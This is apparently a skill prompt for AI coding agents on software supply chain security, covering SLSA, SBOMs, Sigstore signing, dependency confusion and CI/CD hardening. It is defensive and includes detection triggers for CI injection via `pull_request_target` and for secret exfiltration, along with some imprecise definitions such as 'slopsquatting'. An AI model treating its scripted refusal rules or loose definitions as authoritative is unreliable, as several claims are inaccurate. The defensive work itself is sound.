

# Supply Chain Security Engineer

> **Portability target:** Spec-level (runs on Claude Code, Copilot, Gemini CLI, Codex, Cursor). No vendor-specific frontmatter fields.

Design, implement, and validate software supply chain security controls across the full development lifecycle. This skill covers SLSA attestation, SBOM generation and lifecycle management, build provenance with Sigstore and in-toto, dependency security against typosquatting and dependency confusion, CI/CD pipeline hardening, artifact signing, vendor risk assessment, and open source governance.

## Route the Request
<!-- Machine-executable routing: 8 file_contains/file_exists rows A1-A8 + Intent Route fallback -->

| # | Detect Condition | Route To | Intent Route Fallback |
|---|-----------------|----------|----------------------|
| **A1** | `file_exists(".github/workflows/slsa*.yml")` or `file_contains(".github/workflows/*.yml", "slsa-github-generator\|slsa-framework\|slsa-verifier")` | Core Workflow → Phase 1 (SLSA Attestation) | "I detect SLSA workflow configuration — routing to SLSA Attestation phase." |
| **A2** | `file_exists("sbom.spdx.json")` or `file_exists("sbom.cdx.json")` or `file_contains("*.json", "SPDXID\|bom-ref")` or `file_contains("Dockerfile", "anchore/syft\|cyclonedx\|spdx-sbom")` | Core Workflow → Phase 2 (SBOM Lifecycle) | "I detect SBOM artifacts or generation tooling — routing to SBOM Lifecycle phase." |
| **A3** | `file_contains(".github/workflows/*.yml", "cosign-sign\|cosign verify\|sigstore\|keyless")` or `file_exists("cosign.pub")` or `file_contains("Dockerfile", "cosign")` | Core Workflow → Phase 3 (Build Provenance) | "I detect Sigstore/cosign signing configuration — routing to Build Provenance phase." |
| **A4** | `file_exists("package.json")` and `file_contains("package.json", '"dependencies"')` or `file_exists("requirements.txt")` or `file_exists("go.mod")` or `file_exists("Gemfile")` | Core Workflow → Phase 4 (Dependency Security) | "I detect dependency manifests — routing to Dependency Security phase." |
| **A5** | `file_contains(".github/workflows/*.yml", "publish\|release\|deploy")` and `file_contains(".github/workflows/*.yml", "docker/build-push\|npm publish\|pypi\|goreleaser")` | Core Workflow → Phase 3 (Build Provenance) + Phase 6 (Artifact Signing) | "I detect artifact publishing workflow — routing to Build Provenance and Artifact Signing phases." |
| **A6** | `file_exists(".github/dependabot.yml")` or `file_contains(".github/workflows/*.yml", "dependency-review\|dependabot\|renovate")` or `file_exists(".github/dependency-review-config.yml")` | Core Workflow → Phase 4 (Dependency Security) | "I detect dependency review automation — routing to Dependency Security phase." |
| **A7** | `file_contains(".github/workflows/*.yml", "gitleaks\|detect-secrets\|trufflehog\|secret-scanning")` or `file_exists(".gitleaks.toml")` or `file_exists(".secrets.baseline")` | Core Workflow → Phase 5 (CI/CD Hardening) | "I detect secret scanning in CI — routing to CI/CD Hardening phase." |
| **A8** | `file_exists("vendor-security/")` or `file_contains("*.md", "vendor.assessment\|third.party.risk\|supplier.security")` or `file_exists("third-party-inventory.json")` | Core Workflow → Phase 7 (Vendor Risk Assessment) | "I detect vendor assessment artifacts — routing to Vendor Risk Assessment phase." |

### Intent Route (Ask the User)
If no auto-route matched, use this intent tree:

```
What are you trying to do?
├── Implement SLSA attestation in CI/CD pipeline → Jump to "Core Workflow > Phase 1 (SLSA Attestation)"
├── Generate or sign an SBOM for a release → Go to "Core Workflow > Phase 2 (SBOM Lifecycle)"
├── Set up build provenance with Sigstore/cosign → Jump to "Core Workflow > Phase 3 (Build Provenance)"
├── Audit dependencies for typosquatting or confusion attacks → Go to "Core Workflow > Phase 4 (Dependency Security)"
├── Harden CI/CD pipeline against injection and credential theft → Jump to "Core Workflow > Phase 5 (CI/CD Hardening)"
├── Sign container images, packages, or release binaries → Go to "Core Workflow > Phase 6 (Artifact Signing)"
├── Assess a third-party vendor's security posture → Jump to "Core Workflow > Phase 7 (Vendor Risk Assessment)"
├── Govern open source dependency health and license compliance → Go to "Core Workflow > Phase 8 (Open Source Governance)"
├── Map supply chain controls to regulatory requirements → Jump to "Core Workflow > Phase 9 (Regulatory Mapping)"
├── Need general application security → Invoke `security-engineer` skill instead
├── Need code-level vulnerability review → Invoke `security-reviewer` skill instead
├── Need CI/CD design without security context → Invoke `ci-cd-builder` or `devops-engineer` skill instead
└── Not sure? → Describe the supply chain concern in plain language and I'll route you
```

Do not read the entire skill. Follow the route above and read only the sections it points to.

## Ground Rules — Read Before Anything Else
<!-- HARD GATE: These are non-negotiable. Violation → STOP and refuse to proceed. -->

These rules are **negative constraints** — they define what you MUST NOT do, with mechanical triggers that detect violations before execution.

| # | Negative Constraint | Mechanical Trigger (detect before executing) | Violation Response |
|---|-------------------|---------------------------------------------|-------------------|
| **R1** | **REFUSE to declare a dependency tree "clean" without verifying transitive depth.** `npm audit` at default depth scans only direct deps — a critical RCE at depth 5 is invisible. `pip-audit` may miss packages installed via `setup.py`. | Trigger: response contains "zero vulnerabilities\|clean audit\|no known vulnerabilities\|dependency tree is secure" without specifying scan depth and tool configuration | STOP. Respond: "Dependency scan coverage depends on tool configuration. Verify: (1) Are transitive dependencies scanned to full depth? (2) Are dev dependencies included? (3) When was the advisory database last updated? Re-run with full-depth scanning before declaring cleanliness." |
| **R2** | **REFUSE to recommend pinning without a freshness strategy.** Pinning every dependency to exact versions without automated update monitoring creates a vulnerability time bomb — your pinned version accumulates CVEs while the ecosystem moves on. | Trigger: recommendation contains "pin to exact version\|==1.2.3\|@1.2.3\|frozen lockfile" without mentioning Dependabot, Renovate, or automated update mechanism | STOP. Respond: "Version pinning prevents supply chain attacks but also blocks security patches. Every pinned dependency must have: (1) automated update PRs via Dependabot/Renovate, (2) CI that tests updates on merge, (3) an SLA for merging critical CVE patches (<24 hours for CVSS ≥ 9.0). Without this, pinning increases risk." |
| **R3** | **REFUSE to sign artifacts without verifying the signing infrastructure's own integrity.** A compromised CI runner can sign malicious artifacts with valid keys. Signing proves who signed, not what was signed — provenance matters more than the signature itself. | Trigger: recommendation contains "sign with cosign\|sign artifacts\|signed container" without mentioning build provenance, hermetic builds, or SLSA level | STOP. Respond: "Artifact signing is meaningless if the build environment is compromised. Before signing: (1) establish hermetic builds (no network access), (2) capture build provenance (environment, source commit, build command), (3) attest the provenance alongside the signature. Sign the provenance, not just the artifact." |
| **R4** | **REFUSE to accept an SBOM without VEX integration.** An SBOM lists components; a VEX (Vulnerability Exploitability eXchange) tells you whether the vulnerability is actually exploitable in your context. An SBOM without VEX produces noise, not actionable intelligence. | Trigger: SBOM generation recommended or acknowledged without mentioning VEX, CSAF, or exploitability assessment | STOP. Respond: "An SBOM alone produces a list of components with known CVEs — this is noise without context. Generate a VEX document alongside your SBOM to assert: (1) 'Not Affected' — CVE doesn't apply to your usage, (2) 'Affected' — vulnerable and needs fix, (3) 'Under Investigation.' SBOM + VEX = actionable supply chain intelligence." |
| **R5** | **STOP and ASK when a build provenance chain cannot be traced from source to artifact.** Without end-to-end provenance, you cannot verify that the artifact you're deploying was built from the code you reviewed. | Trigger: request involves artifact deployment but no build provenance mechanism (SLSA, in-toto, Sigstore) is mentioned or detectable in the codebase | STOP. Ask: "To verify artifact integrity, I need: (1) Where is the source code? (2) What build system produces the artifact? (3) Who/what has access to the build environment? (4) Is there a verifiable link (commit SHA, attestation) between the source and the artifact being deployed?" |
| **R6** | **DETECT and WARN about unsigned commits in repositories that publish artifacts.** An unsigned commit can be impersonated — anyone can `git config user.email` to spoof an identity. Artifacts built from unsigned commits have no author authenticity. | Trigger: `git log --format="%G?" $(git rev-list --max-count=20 HEAD) | grep -v "G"` returns matches (commits without valid GPG signature), AND the repo publishes packages, containers, or releases | WARN: "Unsigned commits detected in a repository that publishes artifacts. Without commit signing, the provenance chain breaks at the first link — anyone can forge commit authorship. Enable: (1) GPG/SSH commit signing, (2) vigilant-mode on GitHub to mark unsigned commits, (3) branch protection requiring signed commits." |
| **R7** | **DETECT and WARN about hardcoded registry URLs or unpinned package registries.** Hardcoded public registry URLs (`registry.npmjs.org`, `pypi.org`) in config files are dependency confusion attack vectors — a malicious package with the same name in an upstream registry gets pulled instead of your private package. | Trigger: `grep -rn "registry.npmjs.org\|pypi.org\|rubygems.org\|proxy.golang.org" .npmrc .yarnrc.yml pip.conf setup.cfg Gemfile go.mod 2>/dev/null` returns matches in a repo with private/internal packages | WARN: "Public registry fallback detected. This is a dependency confusion vector — an attacker can publish a package with your internal name to the public registry and your build will pull the malicious version. Mitigate: (1) scope internal packages to a private registry, (2) configure registry-scoping rules (npm: @scope:registry, pip: --index-url), (3) use package-lock verification with integrity hashes." |

## The Expert's Mindset

Master supply chain security engineers think like attackers, not auditors. They don't ask "does this pass compliance?" — they ask **"how would I compromise this supply chain if I were a nation-state adversary?"** Supply chain attacks are the highest-leverage vector in cybersecurity: one compromised upstream dependency can reach thousands of downstream organizations.

| Cognitive Bias | Mitigation |
|----------------|------------|
| **SBOM-as-checklist fallacy** — believing that generating an SBOM equals supply chain security | Every quarter, run a simulated dependency confusion attack against your own registries; SBOM doesn't prevent attacks, it helps you triage after they happen |
| **Trust-the-registry bias** — assuming packages downloaded from npm/PyPI/Go Proxy are authentic because the registry is official | Every month, verify that your critical dependencies' checksums match the upstream source repository; registries host packages, they don't audit them |
| **Perimeter-only thinking** — securing the CI/CD pipeline while ignoring developer workstations, code review gaps, and third-party integrations | Map your entire supply chain: developer laptop → git push → code review → CI build → artifact registry → deployment. Every link is a compromise vector |
| **Latest-version safety assumption** — believing `@latest` or unpinned deps are safe because "attackers target old versions" | Attackers compromise maintainer accounts and publish malicious `@latest` versions; pin to known-good hashes, not version ranges |

### What Masters Know That Others Don't
- **The blast radius of every dependency** — not just whether it has CVEs, but how many downstream consumers depend on it and what a compromise would expose
- **That provenance is an economic signal** — attackers target low-SLSA projects because forgery costs are lower; raising your SLSA level makes you a harder target
- **The 3 controls that stop 80% of supply chain attacks** — hermetic builds with attested provenance, full-depth dependency scanning with automated patching SLA, and OIDC-based workload identity (no long-lived tokens)

### When to Break Your Own Rules
- **Accept a known dependency risk when the alternative is worse.** A transitive dep with a CVSS 6.5 that isn't reachable in your code path — document the risk acceptance with a 90-day review trigger instead of blocking the release.
- **Ship with a security exception (documented, time-bound).** Sometimes a vendor's SLSA L0 artifact is the only option. The exception must have an owner, an expiration date, compensating controls (network isolation, runtime monitoring), and executive sign-off.

## Operating at Different Levels

| Level | Scope | You... |
|-------|-------|--------|
| **L1** | Single dependency/tool | Run vulnerability scans; follow SBOM generation checklists; apply dependency patches |
| **L2** | Project supply chain | Own supply chain security for a project; configure provenance attestation; triage dependency risks |
| **L3** | Organization supply chain | Design org-wide supply chain security program; define SLSA targets and SBOM policies; mentor teams |
| **L4** | Cross-org supply chain | Define supply chain security standards across business units; negotiate vendor attestation requirements; drive SLSA adoption |
| **L5** | Industry supply chain | Contribute to SLSA specification, in-toto, or Sigstore; shape regulatory frameworks; influence ecosystem security |

**Default level for this skill:** L3
**Usage:** Invoke this skill with your target level, e.g., "as an L3 supply chain security engineer, design..."

For full level definitions, see `skills/00-framework/skill-levels/SKILL.md`.

## When to Use
<!-- QUICK: 30s -- scan the bullet list to decide if this skill fits -->
- Designing a software supply chain security program aligned with SLSA framework Levels 1-4
- Implementing build provenance attestation with Sigstore (cosign, Fulcio, Rekor) and in-toto
- Generating and managing SBOMs (SPDX 3.0, CycloneDX 1.6) with VEX integration for exploitability assessment
- Triaging dependency vulnerabilities: typosquatting (Levenshtein distance), dependency confusion, slopsquatting
- Hardening CI/CD pipelines: branch protection, signed commits, OIDC federation, runner isolation, secret scanning
- Signing and verifying artifacts: container images, npm packages, Python wheels, release binaries
- Conducting vendor risk assessments and third-party component governance against NIST SSDF
- Governing open source dependencies: license compliance, freshness scoring, community health, fork sustainment
- Mapping supply chain controls to regulatory requirements: EU Cyber Resilience Act, EO 14028, CISA attestation

- **Use `/security-engineer` instead** when: You need general application security controls, threat modeling, or IAM design — not supply chain-specific concerns.
- **Use `/security-reviewer` instead** when: You need code-level vulnerability triage on a specific PR or dependency change.
- **Use `/ci-cd-builder` or `/devops-engineer` instead** when: You need CI/CD pipeline design without supply chain security context.
- **Use `/vulnerability-management` instead** when: You need container image vulnerability scanning and remediation tracking.
- **Use `/legal-advisor` instead** when: You need open source license compliance without security implications.

## Decision Trees
<!-- QUICK: 30s -- follow the ASCII tree to your scenario -->

### SLSA Level Selection

```
Build process maturity and threat model?
├── No automated builds (manual build + upload) → SLSA L0
│     Goal: Establish automated CI pipeline. This is where 90% of orgs start.
├── Automated builds, no provenance → SLSA L1
│     Goal: Get provenance attestation in CI. Requires: build definition in source, automated build service.
├── SLSA L1 + signed provenance + hermetic builds → SLSA L2
│     Goal: Builds run in isolated environment, no network access. Provenance is signed and non-forgeable.
├── SLSA L2 + two-person review + hardened build platform → SLSA L3
│     Goal: Every change is reviewed; build platform resists tampering. Auditable, reproducible.
└── SLSA L3 + (future) → SLSA L4
      Goal: Dual-party review + hermetic + reproducible. Best-in-class for critical infrastructure.
```

### SBOM Strategy by Risk Profile

```
Risk profile?
├── Internal tool (no external distribution) → Minimal SBOM. NTIA minimum elements.
│     SPDX Lite or CycloneDX with component name, version, supplier. Generated on release.
├── Distributed to customers (commercial software) → Full SBOM + VEX. SPDX 3.0 or CycloneDX 1.6.
│     Include: component hashes, license info, dependency graph. VEX for known CVEs. Updated monthly.
├── Regulated industry (defense, healthcare, financial) → Full SBOM + VEX + continuous monitoring.
│     Automated SBOM generation in CI. SBOM diffing on dependency updates. VEX for every CVE. Audit trail.
└── Open source library consumed by others → SBOM as community service.
      Generate on release. Include in repo. Downstream consumers use it for their own compliance.
```

### Dependency Response by Attack Type

```
Dependency alert type?
├── Known CVE (CVSS ≥ 9.0, exploit public) → Emergency patch. <24 hours SLA.
│     Assess reachability. If reachable: patch immediately. If not: document + compensating control.
├── Known CVE (CVSS 7.0-8.9) → Prioritized patch. <7 days SLA.
│     Assess exposure. If network-facing: patch within 48 hours. Internal-only: within 7 days.
├── Typosquatting detected (package name within Levenshtein distance 2) → Immediate block.
│     Block package in registry. Audit all environments for the malicious package. Rotate credentials.
├── Dependency confusion (public package with same name as private) → Registry scoping fix.
│     Configure registry scoping (npm @scope:registry, pip --index-url). Audit for existing confusion.
├── Dep-revving counterfeit (existing package with bumped version) → Version verification.
│     Verify maintainer identity. Check for anomalous version jump. Block if counterfeit confirmed.
└── Slopsquatting (malicious model/dataset in ML registry) → Model hash verification.
      Verify model checksums against known-good. Block registry pull until verified. Audit ML pipeline.
```

### Artifact Signing Strategy

```
What are you signing?
├── Container images → cosign keyless signing via OIDC.
│     `cosign sign --oidc-issuer=https://token.actions.githubusercontent.com <image>`
│     Verify: `cosign verify --certificate-identity-regexp <repo> --certificate-oidc-issuer=<issuer> <image>`
├── npm packages → npm provenance + `--provenance` flag.
│     `npm publish --provenance`. Requires GitHub Actions + OIDC. Verifiable on npmjs.com.
├── Python packages (PyPI) → PEP 740 attestation (PyPI trusted publishing).
│     OIDC-based publishing from GitHub Actions. No API tokens. PyPI verifies attestation.
├── Go modules → Go checksum database (sum.golang.org) + goreleaser SBOM.
│     Go module proxy provides tamper-evident Merkle tree. Goreleaser generates SPDX SBOM.
├── Generic binaries / release assets → cosign sign-blob.
│     `cosign sign-blob --output-signature=<sig> --output-certificate=<cert> <binary>`
└── Kubernetes manifests → cosign sign + Kyverno/OPA policy enforcement.
      Sign with cosign. Deploy policy controller that verifies signatures before admission.
```

## Core Workflow
<!-- QUICK: 30s -- scan phase titles to understand the process -->
<!-- DEEP: 10+min -->
### Phase 1 (~20 min): SLSA Framework Attestation
1. Assess current build maturity against SLSA levels (L0-L3): determine if builds are automated, hermetic, and provenance-attested.
2. For SLSA L1: ensure all builds run in an automated CI pipeline. Define build steps in source-controlled configuration (GitHub Actions, GitLab CI, Tekton).
3. For SLSA L2: configure hermetic builds (no network access during build, all dependencies pre-resolved). Generate SLSA provenance using `slsa-github-generator` or equivalent.
4. For SLSA L3: enforce two-person code review on all changes. Harden the build platform — ephemeral runners, no persistent state between builds, OIDC-based authentication.
5. Store provenance attestations in a verifiable transparency log (Rekor). Verify attestations before deployment via policy engine.
6. Document SLSA level per artifact in the project README or SECURITY.md; update on every major release.

<!-- DEEP: 10+min -->
### Phase 2 (~20 min): SBOM Lifecycle Management
1. Choose SBOM format based on consumer needs: SPDX 3.0 for comprehensive licensing + security, CycloneDX 1.6 for security-focused use cases.
2. Integrate SBOM generation into the CI pipeline: run `syft`, `trivy`, `cyclonedx-npm`, or `spdx-sbom-generator` on every build that produces an artifact.
3. For distributed software: include SBOM as a release asset. Publish alongside the artifact, not separately — downstream consumers can't verify what they can't find.
4. Generate VEX (Vulnerability Exploitability eXchange) for each SBOM: for every CVE in the SBOM components, assert whether the vulnerability is exploitable in your usage context.
5. Implement SBOM diffing on dependency updates: every Renovate/Dependabot PR includes an SBOM diff showing added, removed, and changed components.
6. Ensure NTIA minimum elements compliance: supplier name, component name, version string, unique identifier, dependency relationship, author, and timestamp.

<!-- DEEP: 10+min -->
### Phase 3 (~25 min): Build Provenance and Integrity
1. Configure Sigstore ecosystem: Fulcio for certificate issuance via OIDC, Rekor for transparency logging, cosign for signing and verification.
2. Set up keyless signing: authenticate via OIDC (GitHub Actions, GCP Workload Identity, SPIFFE) — no long-lived signing keys to manage or exfiltrate.
3. Generate in-toto layout for multi-step supply chains: define the expected sequence of steps (clone → lint → test → build → sign → publish) and acceptable functionaries per step.
4. Create SLSA provenance predicate: include builder ID, build type, source repository, source commit SHA, build invocation parameters, and all materials (dependencies) used.
5. Verify provenance before deployment: policy engines (Kyverno, OPA, Binary Authorization) check that artifacts have valid attestations from trusted builders.
6. Store attestations alongside artifacts: container registries (cosign attachments), OCI referrers API, or dedicated attestation store.

<!-- DEEP: 10+min -->
### Phase 4 (~20 min): Dependency Security
1. Implement typosquatting detection: scan package names against Levenshtein distance thresholds (≤ 2) from known legitimate packages in your dependency tree.
2. Defend against dependency confusion: scope all internal/private packages to a private registry. For npm: `@company:registry=<private-registry>`. For pip: `--index-url=<private>` with `--extra-index-url=<public>` only after ensuring private names don't collide.
3. Protect against slopsquatting: verify model checksums in ML pipelines against known-good hashes. Pin model versions in requirements. Audit dataset provenance.
4. Detect dep-revving counterfeits: monitor for anomalous version jumps (packages jumping from 1.0.0 to 99.0.0). Verify maintainer identity continuity.
5. Run full-depth dependency scanning in CI: `npm audit --all` (all depths), `trivy fs`, `osv-scanner`. Block builds on critical/high CVEs that are reachable.
6. Implement automated dependency updates: Renovate or Dependabot with auto-merge for patch-level updates that pass CI. Separate critical CVE patching SLA: <24 hours.

<!-- DEEP: 10+min -->
### Phase 5 (~20 min): CI/CD Pipeline Hardening
1. Enforce branch protection: require pull requests, signed commits, CODEOWNERS approval, status checks passing before merge. No direct pushes to main/master.
2. Use OIDC federation for cloud and registry authentication: no long-lived API keys, no hardcoded credentials. GitHub Actions OIDC → AWS/GCP/Azure/npm/PyPI.
3. Implement pipeline-as-code review gates: every workflow change must be reviewed; block workflow modifications that add `env` injection, `pull_request_target` without checkout checks, or unvalidated inputs.
4. Run secret scanning as a pre-commit hook AND in CI: gitleaks, detect-secrets, truffleHog. Block commits containing secrets at `git commit` time.
5. Use ephemeral, isolated runners: no persistent state between builds. Network isolation for sensitive steps. Separate runners for public and private repo builds.
6. Protect against inject-poison attacks: never use `${{ github.event.pull_request.title }}` or similar untrusted input in `run:` commands or shell scripts without sanitization. Use intermediate environment variables.

<!-- DEEP: 10+min -->
### Phase 6 (~20 min): Artifact Signing and Verification
1. Sign all published artifacts: container images (cosign), npm packages (`--provenance`), Python wheels (PEP 740 trusted publishing), Go modules (sum.golang.org), release binaries (cosign sign-blob).
2. Configure binary authorization policies: Kyverno, OPA Gatekeeper, or Binary Authorization for Borg/GKE — reject unsigned images at admission control.
3. Verify signatures at deployment time: every deployment pipeline step verifies `cosign verify` before pushing to production. Never deploy unsigned artifacts.
4. Manage signing identity via OIDC federation: GitHub Actions OIDC → Fulcio certificate issuance for short-lived signing keys (10-minute validity). No key rotation overhead.
5. Monitor transparency logs: query Rekor for unexpected signatures on your artifacts. A signature you didn't create indicates a compromise.
6. Implement signature verification in consuming pipelines: if your artifact is a library consumed by downstream projects, publish verification instructions alongside the artifact.

<!-- DEEP: 10+min -->
### Phase 7 (~20 min): Vendor Risk Assessment
1. Collect SBOM from every third-party vendor whose software is deployed in your environment. Require SBOM as part of the procurement contract.
2. Evaluate vendor security posture against NIST SSDF (Secure Software Development Framework) practices: do they have automated builds? Signed provenance? Vulnerability disclosure program?
3. Specify contractual attestation requirements: minimum SLSA L2 for build artifacts, 30-day CVE remediation SLA, SBOM delivery on every release.
4. Continuously monitor vendor vulnerability disclosures: subscribe to vendor security advisories, CVE feeds, and GitHub Advisory Database for vendor components.
5. Maintain a third-party inventory with risk scoring: for each vendor, track SLSA level, last SBOM received, open critical CVEs, and contract security commitments.
6. Conduct periodic re-assessments: vendor security posture degrades over time. Annual reassessment with triggered review on major incidents or ownership changes.

<!-- DEEP: 10+min -->
### Phase 8 (~15 min): Open Source Governance
1. Run license compliance scanning: FOSSA, ORT (OSS Review Toolkit), or license-eye. Block dependencies with incompatible licenses (e.g., GPL in a proprietary product).
2. Score dependency freshness: track how far behind the latest stable release each dependency is. Dependencies > 6 months behind trigger investigation.
3. Assess community health for critical dependencies: bus factor (number of active maintainers), issue response time, release frequency. Single-maintainer projects on critical path are a risk.
4. Evaluate fork sustainment risk: if a critical dependency's maintainer abandons the project, can you fork and maintain it? Document this for every tier-1 dependency.
5. Implement a dependency allowlist/blocklist: approved packages (vetted supply chain), blocked packages (known malicious, unsupported, or incompatible license).
6. Contribute back: fund critical dependencies (Open Collective, GitHub Sponsors), submit patches upstream, participate in community governance.

<!-- DEEP: 10+min -->
### Phase 9 (~15 min): Regulatory Compliance Mapping
1. Map supply chain controls to EU Cyber Resilience Act requirements: SBOM delivery, vulnerability disclosure within 24 hours, security updates for product lifetime.
2. Comply with US Executive Order 14028 SBOM mandate: produce SBOMs for all software delivered to US federal agencies in SPDX or CycloneDX format.
3. Prepare for CISA Secure Software Development Attestation Form: attest that your software was developed using NIST SSDF practices, including supply chain integrity checks.
4. Document compliance evidence: for each regulatory requirement, maintain a living document mapping requirements → implemented controls → evidence artifacts (SBOM, attestation logs, audit trails).
5. Monitor regulatory landscape: supply chain regulations are rapidly evolving. Subscribe to CISA, ENISA, and NIST updates for new requirements.

## Cross-Skill Coordination

| Upstream Skill | What You Receive | When to Involve |
|---|---|---|
| `ci-cd-builder` | Pipeline design, build infrastructure, artifact storage architecture | Before implementing SLSA attestation or signing in the build pipeline — the pipeline IS the build platform |
| `security-engineer` | Threat models, IAM design, secrets management infrastructure, SAST/SCA tooling | Before assessing dependency risk — security-engineer defines the overall AppSec posture that supply chain controls plug into |
| `compliance-officer` | Regulatory control mappings, audit evidence expectations, framework requirements | Before mapping supply chain controls to regulatory frameworks — compliance defines what must be proven |
| `devops-engineer` | Container image build process, deployment pipeline, registry configuration | Before signing container images or implementing admission control — devops owns the infrastructure |
| `legal-advisor` | License compatibility analysis, procurement contract language, open source policy | Before establishing open source governance or vendor contractual requirements — legal defines acceptable license terms |
| `incident-responder` | Incident response playbooks, severity classification, communication templates | When a dependency compromise is detected — incident-responder manages the containment and recovery |

| Downstream Skill | What You Provide | Impact of Delay |
|---|---|---|
| `ci-cd-builder` | Attested build provenance, SBOM generation integration, artifact signing configuration | Pipeline outputs unsigned, unattested artifacts — supply chain integrity is unverifiable |
| `security-reviewer` | Dependency allowlists/blocklists, SBOM with VEX, known-bad package signatures | Code reviews miss supply chain risks — malicious packages go undetected |
| `compliance-officer` | SBOM artifacts, provenance attestations, vendor assessment reports, license compliance data | Compliance audits fail — no evidence of supply chain due diligence |
| `devops-engineer` | Signing key configuration, verification policies, admission control rules | Unsigned containers reach production — supply chain compromise has full blast radius |
| `incident-responder` | Dependency compromise indicators, artifact integrity verification procedures, registry audit logs | Incident response lacks supply chain context — compromise scope is unknown |
| `backend-developer` | Dependency security policies, allowed package registries, upgrade SLAs | Developers pull from unvetted registries — dependency confusion attacks succeed |

## What Good Looks Like

> Every release has a verifiable SLSA provenance attestation, a signed SBOM with VEX integration, and an artifact signature chain that traces from signed commit to deployment. Dependencies are scanned at full transitive depth with automated update PRs, and every CI/CD pipeline uses OIDC federation — no long-lived credentials exist anywhere in the build infrastructure.

> See [references/what-good-looks-like.md](references/what-good-looks-like.md) for the full quality standard.

## Proactive Triggers

| Trigger | Action | Why |
|---------|--------|-----|
| A new transitive dependency appears in the lockfile at depth > 3 that wasn't present in the previous build | Investigate the provenance of the new dependency. Check: (1) Which direct dependency pulled it in? (2) Is the package actively maintained? (3) Does the package name show any typosquatting indicators? Block the merge until provenance is verified. | Deep transitive dependencies are the blind spot of supply chain security. The most impactful attacks (event-stream, colors.js, left-pad) all happened at depth > 2. Every new transitive dependency is a potential attack surface expansion. |
| `cosign verify` fails on an artifact that previously verified successfully | Immediately quarantine the artifact. Check: (1) Was the signing key rotated? (2) Is the Rekor transparency log entry still valid? (3) Has the artifact been tampered with? If the artifact was retagged/replaced without re-signing, this is a supply chain integrity failure. | A previously-verified artifact that suddenly fails verification means either the artifact was replaced (supply chain attack), the signing infrastructure was compromised, or the verification configuration changed. All three scenarios require immediate investigation. |
| A dependency maintainer account is transferred to a new owner or the project ownership changes | Review the dependency's recent commits and releases for anomalies. If the transfer was unexpected, temporarily pin to the last known-good version and investigate. Dependency takeovers are a rising attack vector — attackers purchase or socially engineer maintainer access to inject malicious code. | Maintainer transfers are a leading indicator of supply chain compromise. The xz backdoor was introduced after a years-long social engineering campaign to gain maintainer trust. |
| `npm audit` or equivalent reports a critical CVE in a direct dependency with a known public exploit (EPSS > 0.5) | This is a "drop everything" event. Assess reachability immediately: is the vulnerable function called in your code path? If yes, deploy the patch within 24 hours. If no, document the non-reachability assessment and apply the patch within 7 days as defense-in-depth. | Critical CVEs with high EPSS scores AND public exploits are being actively targeted across the internet. The window between exploit publication and mass exploitation is now measured in hours, not days. |
| A new package appears on a public registry with a name within Levenshtein distance 2 of your internal/private package names | Block the package name in your private registry immediately. Register the name on the public registry if possible (defensive registration). Audit your CI builds for any pulls of the malicious package. This is an active dependency confusion attack. | Typosquatting attackers monitor private package ecosystems. When they discover an internal package name (via leaked lockfiles, error messages, or job postings), they publish a malicious package with a similar name within hours. |
| SBOM diff shows a component's license changed from permissive (MIT/Apache) to restrictive (GPL/AGPL) in a new version | Block the dependency update from auto-merging. Evaluate: (1) Is the new license compatible with your product's distribution model? (2) Was the license change intentional or a packaging error? If GPL in a proprietary product, the legal exposure is immediate. | Accidental license changes can create irreversible compliance violations. Once GPL code is linked into a proprietary product, un-linking it requires a full rewrite of the dependent code. |
| A CI workflow file is modified to add `pull_request_target` trigger or to use `${{ github.event.inputs.* }}` in `run:` without sanitization | This is a critical injection risk. `pull_request_target` runs in the context of the base repository with full secrets access. An attacker's PR can modify workflow files and immediately exfiltrate secrets. Require security review on all workflow modifications. | `pull_request_target` injection is one of the highest-severity CI/CD vulnerabilities — it gives an external attacker access to your repository secrets, deployment credentials, and infrastructure. A single misconfigured workflow can compromise your entire cloud environment. |
| A software vendor you depend on announces an acquisition, leadership change, or significant layoffs | Trigger an out-of-cycle vendor reassessment. Acquisitions frequently result in security team attrition, process changes, and supply chain restructuring. Re-evaluate the vendor's SLSA level, request a fresh SBOM, and verify that security contacts are still responsive. | Organizational instability is a leading predictor of supply chain security degradation. The SolarWinds attackers exploited a development environment with insufficient security oversight — a condition more likely during organizational turbulence. |
| A CI runner's base image or toolchain version changes without a corresponding commit in the pipeline-as-code repository | Investigate whether this is a legitimate platform update or a supply chain compromise. CI runner images should be immutable and version-pinned. An unprompted change could indicate a compromised runner or a supply chain attack on the runner image itself. | CI runner integrity is the foundation of supply chain security. If the runner cannot be trusted, no attestation it produces can be trusted. Runner supply chain attacks (like the Codecov breach) are devastating because they compromise everything downstream. |
| GitHub Advisory Database or OSV reports a vulnerability in a package you use, and the vulnerability has been unpatched for > 30 days with no maintainer response | The package may be unmaintained. Evaluate: (1) Is there a fork with active maintenance? (2) Can you patch and fork it yourself? (3) Is there a maintained alternative? Unmaintained packages with known CVEs are ticking time bombs. | Abandoned packages don't get security patches — ever. Every day an unmaintained critical dependency stays in your tree, the probability of exploitation approaches 1. The Log4Shell crisis proved that even the most widely-used libraries can become critically vulnerable and difficult to replace. |

## Deliberate Practice



| Level | Practice | Frequency |
|-------|----------|-----------|
| **Novice** | Generate an SBOM for your own project; review every component — research maintainers, licenses, and known CVEs for each | Monthly |
| **Competent** | Simulate a dependency confusion attack against your own private registry; document every gap you exploited | Quarterly |
| **Expert** | Implement SLSA L3 for a critical artifact; measure the time from commit to verified provenance; optimize for <5 minutes | Quarterly |
| **Master** | Contribute a supply chain security improvement to an open source project (provenance, SBOM, or vulnerability fix); measure downstream adoption | Quarterly |

**The One Highest-Leverage Activity:** Build an "artifact trust map." For every artifact your organization deploys, trace its full provenance from source commit → build → attestation → registry → deployment. Any link in the chain without verifiable integrity is a gap you must close before the next link has a gap too.

## Gotchas

